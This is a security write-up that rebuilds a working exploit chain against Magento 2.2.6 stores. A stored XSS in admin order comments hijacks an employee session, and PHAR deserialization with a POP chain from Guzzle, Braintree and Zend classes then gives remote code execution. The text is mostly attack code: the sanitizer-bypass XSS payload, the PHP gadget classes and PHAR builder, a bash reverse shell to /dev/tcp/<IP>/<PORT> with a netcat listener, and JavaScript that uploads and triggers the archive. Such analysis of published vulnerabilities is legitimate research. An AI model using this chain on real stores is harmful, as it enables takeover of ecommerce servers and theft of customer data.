


# Magento 2.2.6: Stored XSS to RCE
Magento is an open source ecommerce platform written in PHP. It is one of the most used ecommerce solutions and it is characterized by its flexibility, with dozens of extensions that lets adapt an instalattion to a particular business need.

Members of RIPS Tech published on 2019 a [security report](https://blog.ripstech.com/2019/magento-rce-via-xss/) revealing an exploit chain which results on Remote Code Execution on Magento stores version 2.2.6 and prior. The vulnerability enables unauthenticate adversaries to persistently inject a javascript payload into the administrator backend of a Magento store. When an employee logs into the admin dashboard, the injected payload runs and hijacks the administrative session. An authenticated remote code execution vulnerability based on phar deserialization is then exploited.

The goal of this work was create a working exploit based on the vulnerability report by RIPS Tech, getting a reverse shell on the server. The following text is a breakdown of the process.

[](https://youtu.be/hgyA55DhHBY)

## Table of content
- [Stored XSS](#stored-xss)
- [PHAR Deserialization](#phar-deserialization)
  * [PHP Streams, Wrappers and PHAR files](#php-streams--wrappers-and-phar-files)
  * [Unsafe deserialization: PHP Object Injection (POI) and Property Oriented Programming (POP) chain](#unsafe-deserialization--php-object-injection--poi--and-property-oriented-programming--pop--chain)
  * [Exploiting the PHAR deserialization on Magento](#exploiting-the-phar-deserialization-on-magento)
    + [Find the user controlled path](#find-the-user-controlled-path)
    + [Upload the phar archive](#upload-the-phar-archive)
    + [Find a POP chain](#find-a-pop-chain)
    + [Craft the PHAR archive](#craft-the-phar-archive)
- [Putting it all together](#putting-it-all-together)
- [Conclusion](#conclusion)
- [References](#references)


---
# Stored XSS
The store backend has a functionality for employees to add internal comments on orders, which can be read by them and others employees. It is interesting that comments can include some html tags which, for security reasons, are sanitized before being printed. The vulnerability arises because of a flaw on the sanitization process, that enables an employee to inject a javascript payload on the comments page. The whole process requires authorized access with order management permissions, and although it is enough to be considered a vulnerability (opens the possibility to hijack the session of employees with higher permissions), its scope is very limited and not so interesting. However, some popular extensions expose the add comment functionality to end users, increasing the attack surface to anonymous users.

It all starts when a comment is going to be printed in the order details, the helper function `escapeHtmlWithLinks()` is executed.

```php
<?php if ($_item->getComment()): ?>
  <div class="note-list-comment"><?= $block->escapeHtml($_item->getComment(), ['b', 'br', 'strong', 'i', 'u', 'a']) ?></div>
<?php endif; ?>
```
File: [app/code/Magento/Sales/view/adminhtml/templates/order/view/history.phtml#L88-L90](https://github.com/magento/magento2/blob/5c82b225c700436ab0f14ad281b025fb0e75b3ad/app/code/Magento/Sales/view/adminhtml/templates/order/view/history.phtml#L88-L90)


```php   
public function escapeHtml($data, $allowedTags = null)
{
  return $this->adminHelper->escapeHtmlWithLinks($data, $allowedTags);
}
```
File: [app/code/Magento/Sales/Block/Adminhtml/Order/View/History.php#L142-L145](https://github.com/magento/magento2/blob/5c82b225c700436ab0f14ad281b025fb0e75b3ad/app/code/Magento/Sales/Block/Adminhtml/Order/View/History.php#L142-L145)

The helper function `escapeHtmlWithLinks()` searchs for every hyperlink tag `<a>` in the input (`$data`), and replaces them temporally with the format specifier symbol `%s`, while storing its url and text in a secure link tag of the form `<a href="LINK">TEXT</a>`.

Then, removed hyperlinks are reinserted executing `vsprintf($data, $links)` which replaces all format specifier symbols `%s` with the generated secure link tags.

*Note: this function has been simplified for readability purposes. Refer to the link under the code to view the entire function* 

```php
public function escapeHtmlWithLinks($data, $allowedTags = null)
{
  $i = 1; $links = [];
  $regexp = "/<a\s[^>]*href\s*?=\s*?([\"\']??)([^\" >]*?)\\1[^>]*>(.*)<\/a>/siU";
  while (preg_match($regexp, $data, $matches)) {
    $url = str_replace('%%', '%', $matches[2]);
    $text = str_replace('%%', '%', $matches[3]);
    $links[] = sprintf(
      '<a href="%s">%s</a>',
      htmlspecialchars($url, ENT_QUOTES, 'UTF-8', false),
      $this->escaper->escapeHtml($text)
    );
    $data = str_replace($matches[0], '%' . $i . '$s', $data);
    ++$i;
  }
  $data = $this->escaper->escapeHtml($data, $allowedTags);
  return vsprintf($data, $links);
}
```
File: [app/code/Magento/Sales/Helper/Admin.php#L145-L180](https://github.com/magento/magento2/blob/5c82b225c700436ab0f14ad281b025fb0e75b3ad/app/code/Magento/Sales/Helper/Admin.php#L145-L180)

The vulnerability arises because `escapeHtmlWithLinks()` ignores the placement of hyperlink tags, replacing them whetever they are. This can cause a mixing of quotes, which opens the door to XSS. The following table shows the steps with an example.

| Step  | User's comment |
| ------------- | ------------- |
| User input  | <i id=" <a href=​ 'http://onmouseover=alert(/XSS/)//​'>text</a> "\>message</i\>  |
| Hperlink sanitization  | <i id=" %s "\>message</i\>  |
| Comment sanitization  | <i id=" %s "\>message</i\>  |
| Hyperlink reinsertion  | <i id=" <a href= "http://onmouseover=alert(/XSS/)//"\>text</a\> ">message</i\>  |
| Generated DOM  | <i id="<a href=" http:="" onmouseover="alert(/XSS/)//" "\>text ">message</i\>

The generated document object model is an `<i>` element containing a handler for the `onmouseover` event.

```html
<i id="<a href=" http:="" onmouseover="alert(/XSS/)//" ">text ">message</i>
```

---
# PHAR Deserialization
## PHP Streams, Wrappers and PHAR files
PHP provides a way of generalizing file, network, data compression, and other operations, which share a common set of functions and uses, under the name of streams. In its simplest definition, a stream is a resource object which exhibits streamable behavior. That is, it can be read from or written to in a linear fashion

A wrapper is additional code which enables stream support to handle specific protocols/encodings. For example, when using a generic stream function such as fopen with the http wrapper, the later is responsible for retrieving the network file using an HTTP/1.0 request.

Streams are referenced as `scheme://target`
* scheme (string) - The name of the wrapper to be used.
* target - Depends on the wrapper used. For filesystem related streams, this is typically a path and a filename. For network related streams this often contains the hostname and a path.

Some of the stream interfaces are `file://` used to access to the local filesystem, `http://` used to access to HTTP URLs, `ftp://` used to access FTP urls. Another one is `phar://` which is used to interact with PHAR files, a php specific file format.

The PHAR (PHP Archive) file format provides a convenient way to distribute a complete PHP application in a single file. It contains a self-extracting and self-contained application. It is to PHP what Jar is to Java. PHAR files have the following structure:

* stub - PHP code that will bootstrap the archive when executed
* manifest - metadata about the archive, may contain serialized objects
* file contents - the original files that are included in the archive

PHAR files possess an interesting feature, when any file operation is executed on them, specifiying the `phar://` wrapper, e.g.: `file_exists(phar:///path/to/archive)`, the metadata is deserialized. This means that the object present on the metadata is loaded into memory.

This behavior opens the door to deserialization attacks whenever a file operation occurs on a path and a file controlled by users.  
  

## Unsafe deserialization: PHP Object Injection (POI) and Property Oriented Programming (POP) chain
Deserialization of user provided data is dangerous, users could pass ad-hoc serialized strings to a vulnerable `unserialize()` call, resulting in an arbitrary PHP object injection (POI) into the application scope.

In order to successfully exploit a POI injection, the class of the deserialized object must implement [magic methods](https://www.php.net/manual/es/language.oop5.magic.php), which are special methods invoked upon certain events, such as `__wakeup()` when an object is deserialized, or `__destruct()` when an object is destroyed. The reason is that some magic methods' logic is based on the value of the object's properties. Given that the user controls these properties, it can hijack the logic flow to perform unwanted operations (code execution, sql injection, file inclusion).

Sometimes, the class' magic methods may not be exploitable alone, but it is still possible to chain multiple objects' properties in a "property oriented programming" (POP) fashion. This way the magic method is the starting point on the callstack of functions from different objects, with controlled parameters, reaching the same goal.  
  

## Exploiting the PHAR deserialization on Magento
  
### Find the user controlled path
The vulnerability that enables the insecure deserialization is present on the WYSIWYG module from the content management system of Magento.

The problem is at the endpoint used to renderize images, it accepts the path to the image to be shown. A request to this endpoint has the form `https://target/index.php/admin/cms/wysiwyg/directive/___directive/e3ttZWRpYSB1cmw9ImltZy5qcGcifX0=/key/1cf...674/​`. Inspecting the code responsible to handle this request shows that the base64 encoded string after `__directive` contains the image path, in this case, its content is `{{media url="img.jpg"}}`.

*Note: this function has been simplified for readability purposes. Refer to the link under the code to view the entire function* 

```php
public function execute()
{
  $directive = $this->getRequest()->getParam('___directive');
  $directive = $this->urlDecoder->decode($directive);
  $imagePath = $this->_objectManager->create(\Magento\Cms\Model\Template\Filter::class)->filter($directive);

  try {
    $image->open($imagePath);
  } catch (\Exception $e) {
    
  }
  return $resultRaw;
}
```
File: [app/code/Magento/Cms/Controller/Adminhtml/Wysiwyg/Directive.php#L51-L74](https://github.com/magento/magento2/blob/5c82b225c700436ab0f14ad281b025fb0e75b3ad/app/code/Magento/Cms/Controller/Adminhtml/Wysiwyg/Directive.php#L51-L74)

The example url shown above uses a feature that allows to use relative paths to the media folder, hence the "media url" directive. It is also possible to include the full path of the image instead, as follows `https://target/index.php/admin/cms/wysiwyg/directive/___directive/​base64('phar:///path/to/image')​/key/1cf...674/`. The base64 function included in the path is only representative, in its place should be the url (including the phar scheme) encoded as base64.

That is the first requirement to exploit a PHAR deserialization, control the path of a stream/file operation. The second requirement is to find a way to upload a crafted phar archive to the server.

### Upload the phar archive
There are multiple ways to upload files in magento. An employee can upload product images and other multimedia files from the WYSIWYG module. It is possible to upload the crafted PHAR file as a polyglot image.

A simpler method consist on making a request to the endpoint used to upload digital content of a product. The advantage is that there is no need to generate a polyglot because any type of file is allowed.

```http
POST /index.php/admin/admin/downloadable_file/upload/type/links/?isAjax=true HTTP/1.1
Host: target
Content-Type: multipart/form-data; boundary=---------------------------183543164110924
Content-Length: 421
Cookie: admin=f7o48naeganqn1m5nhaf5epcpf

-----------------------------183543164110924
Content-Disposition: form-data; name="form_key"

AVEctGhHMHu7HyE9
-----------------------------183543164110924
Content-Disposition: form-data; name="links"; filename="test.txt"
Content-Type: text/plain

test file
-----------------------------183543164110924
Content-Disposition: form-data; name="param_name"

links
-----------------------------183543164110924--
```

```http
HTTP/1.1 200 OK
Content-Length: 87
Content-Type: application/json

{"name":"test.txt","type":"text\/plain","error":0,"size":9,"file":"\/t\/e\/test.txt"}
```

Two of the three requirements to execute the exploit are satisfied. It is possible to upload an arbitrary file and obtain its path on the server, and it is also possible to control the entire path (with schema) on a file operation to perform a phar deserialization. What lefts is to craft a phar file that, upon deserialization, executes arbitrary code on the server.

### Find a POP chain

One way to create the chain is to start from the bottom, finding the functions that allows to reach the end goal, then going up until a magic method is found. This document proposes to pop a reverse shell, so a [program execution function](https://www.php.net/manual/en/ref.exec.php), which are functions that allows to execute system commands, is required. PHP has many that do the job, such as `exec()`, `shell_exec()` and `system()`.

```
exec ( ‘<system command>’ ) : string
```

In case there is no program execution function, it is possible to use the function `call_user_func()`, which executes arbitrary PHP code, and then call the said functions.

```
call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] ) : mixed
```

```
call_user_func ( ‘exec’, ‘<system command>’ )
```

The POP chain to be used is based on three classes from third party libraries.



The starting point is the class `GuzzleHttp\Psr7\FnStream`, which magic method `__destruct()` executes `call_user_func()`

```php
public function __destruct()
{
  if (isset($this->_fn_close)) {
    call_user_func($this->_fn_close);
  }
}
```
File: [vendor/guzzlehttp/psr7/src/FnStream.php#L48-L53](https://github.com/guzzle/psr7/blob/3b42ac3ad76541f1d7c17c592ccc53917770313a/src/FnStream.php#L48-L53)

This magic method executes `call_user_func()` passing as parameter the member `_fn_close`. It is possible to point this variable to a global function such as `exec()`. Problem is there is no way to pass the system command for the `exec()` call in this context. It is still useful for any other php function that doesn't require any parameter.

That is where the class `Braintree\PaginatedCollection` provides value, because one of its functions executes `call_user_func()` allowing to specify an object with the function to call and one parameter.


```php
private function _getNextPage()
{
  $this->_currentPage++;
  $object = $this->_pager['object'];
  $method = $this->_pager['method'];

  if (isset($this->_pager['query'])) {
    $query = $this->_pager['query'];
    $result = call_user_func(
      [$object, $method],
      $query,
      $this->_currentPage
    );
  } else {

  }
}
```
File: [vendor/braintree/braintree_php/lib/Braintree/PaginatedCollection.php#L95-L119](https://github.com/braintree/braintree_php/blob/8c8785b8876d5b2f4b4f78c5768ad245a7c43feb/lib/Braintree/PaginatedCollection.php#L95-L119)

There is a caveat with this function, it is a private function, but there is a public function `valid()` that exposes it.

```php
public function valid()
{
  if ($this->_currentPage == 0 || $this->_index % $this->_pageSize == 0 && $this->_index < $this->_totalItems)
  {
    $this->_getNextPage();
  }
  return $this->_index < $this->_totalItems;
}
```
File: [vendor/braintree/braintree_php/lib/Braintree/PaginatedCollection.php#L85-L93](https://github.com/braintree/braintree_php/blob/8c8785b8876d5b2f4b4f78c5768ad245a7c43feb/lib/Braintree/PaginatedCollection.php#L85-L93)

Another restriction is that `_getNextPage()` calls `call_user_func()` passing an array as parameter, in the form of `[object, method]`, so it is still not possible to execute a global method, but it opens the door to call another object's method and specify a parameter with the `query` argument.

This is where the last needed class `Zend\Filter\FilterChain` takes place. This function can execute global functions inside the foreach loop. The function to be executed is defined using the `filters` member. It is possible to pass an argument using the function's parameter `value`. Aplying the whole chain it is possible to control both values.

```php
public function filter($value)
{
  $chain = clone $this->filters;
  $valueFiltered = $value;
  foreach ($chain as $filter) {
      $valueFiltered = call_user_func($filter, $valueFiltered);
  }

  return $valueFiltered;
}
```
File: [vendor/zendframework/zend-filter/src/FilterChain.php#L220-L230](https://github.com/zendframework/zend-filter/blob/69f70df9851b39fc2305c2c3e63e92811f5f2c73/src/FilterChain.php#L220-L230)


### Craft the PHAR archive

The following PHP code is used to generate the objects, where FnStream's constructor receives the PHP function to be executed on `call_user_func()` and one parameter so when FnStream's `__destruct()` is executed, the callstack ends up on the FilterChain's `filter()` executing the instruction `call_user_func($function, $parameter)`.

```php
<?php

namespace GuzzleHttp\Psr7 {
  class FnStream {
    public $_fn_close;

    public function __construct($function, $parameter) {
      $this->_fn_close = array(new \Braintree\PaginatedCollection($function, $parameter), 'valid');
    }
  }
}

namespace Braintree {
  class PaginatedCollection {
     private $_pager;
     private $_currentPage;

     public function __construct($function, $parameter) {
       $this->_pager = array('object' => new \Zend\Filter\FilterChain($function), 'method' => 'filter', 'query' => $parameter);
      $this->_currentPage = 0;
    }
  }
}

namespace Zend\Filter {
  class FilterChain {
    protected $filters;

    public function __construct($function) {
      $this->filters = new \SplFixedArray(1);
      $this->filters[0] = $function;
    }
  }
}
```

The next PHP code is used to generate the PHAR archive with the POP chain

```php
namespace {
   # function to be executed and a parameter
   $function = 'exec';
   $parameter = 'echo "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" | bash';

   # phar instantiation
   $phar = new \Phar("rce.phar");
   $phar->startBuffering();
  
   $phar->setStub("<?php __HALT_COMPILER();");

   # object instantiation
   $fnstream = new \GuzzleHttp\Psr7\FnStream($function, $parameter);

   # set pop chain as metadata
   $phar->setMetadata($fnstream);

   # add content to the phar file
   $phar->addFromString("test.txt", "test");
  
   $phar->stopBuffering();
}
```

The goal of this document is to pop a reverse shell, so the system command to be executed requires the IP and PORT of the listener machine.

```sh
echo "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" | bash
```

The attacker must start a netcat server that listens on that port.

```sh
nc -lp <PORT>
```  
  

# Putting it all together

As presented at the begining of the document, the exposed xss is used to hijack an employee session and exploit the authenticated phar deserialization. That said, the XSS must:

* Contain the crafted PHAR archive or download it from the network
* Upload it as digital content and obtain the complete path
* Perform a request to the endpoint that causes the PHAR deserialization and triggers the POP chain

A way to include the PHAR in the javascript exploit is encoding it as base64 and define it as an url using the data scheme, then perform a request to it to obtain the blob (binary object).

```javascript
let phar_url = 'data:application/octet-stream;base64,<base64 encoded phar>';
let fetch_rce = await fetch(phar_url, {method: 'GET', responseType: 'blob'});
let phar = await fetch_rce.blob();
```

The base url of magento stores can be modified, so to create a generic its required to extract the url using javascript

```javascript
let reg = /([a-zA-Z0-9\/:.]*)\/sales/i;
let [_, url] = reg.exec(document.location);
```

Upload the phar

```javascript
let form_data = new FormData();
form_data.append('form_key', FORM_KEY);
form_data.append('links', phar, 'rce.phar');
form_data.append('param_name', 'links')
 
let fetch_upload = await fetch(url + '/admin/downloadable_file/upload/type/links/?isAjax=true', {method: 'POST', body: form_data});
```

Generate the phar url

```javascript
let upload_result = await fetch_upload.json();
let file_path = 'phar://pub/media/downloadable/tmp/links' + upload_result.file;
```

Trigger the exploit

```javascript
fetch(url + '/cms/wysiwyg/directive/___directive/' + btoa(file_path) + '/?isAjax=true&form_key=' + FORM_KEY, {method: 'POST'});
```

There is one more trick needed, the XSS payload can't include spaces, so to make things simpler, the entire XSS payload is encoded as base64 and then executed using `eval()`

```javascript
eval(atob('<base64_encoded_xss_payload>'))
```

The final XSS payload is

```javascript
<i style="position:fixed;top:0;left:0;z-index:1000;height:100%;width:100%;" id=" <a href='http://onmouseover=eval(atob(`<base64_encoded_xss_payload>`));this.style=null;this.innerHTML=`cancel&nbsp;note`;//'>a link</a> "></i>
```

---

# Conclusion
The first time it may look very difficult but it is rather simple. Finding an user controllable path and being able to upload arbitrary files is half of the work. The other half, to find a POP chain that enables to cause the desired impact, is the hardest. It can take lot of time to analyze the application code, while being some what blind testing in case of closed source applications. The bright side is that many applications rely on well known third party libraries, which usually have public chains.

---

# References
* [Magento 2.3.1: Unauthenticated Stored XSS to RCE - Ripstech](https://blog.ripstech.com/2019/magento-rce-via-xss/)
* [File Operation Induced Unserialization via the “phar://” Stream Wrapper - Sam Thomas - Blackhat USA 2018](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf)
* [Utilizing Code Reuse/ROP in PHP Application Exploits - Stefan Esser - Blackhat USA 2010](https://owasp.org/www-pdf-archive/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf)
* [PHP Object Injection - OWASP](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)
* [PHP - Insecure Deserialization - Exit Security](https://www.exit.wtf/vrd/2019/04/04/Insecure_Deserialization.html)
* [How to exploit the PHAR Deserialization Vulnerability - Pentest-Tools Blog](https://pentest-tools.com/blog/exploit-phar-deserialization-vulnerability/)

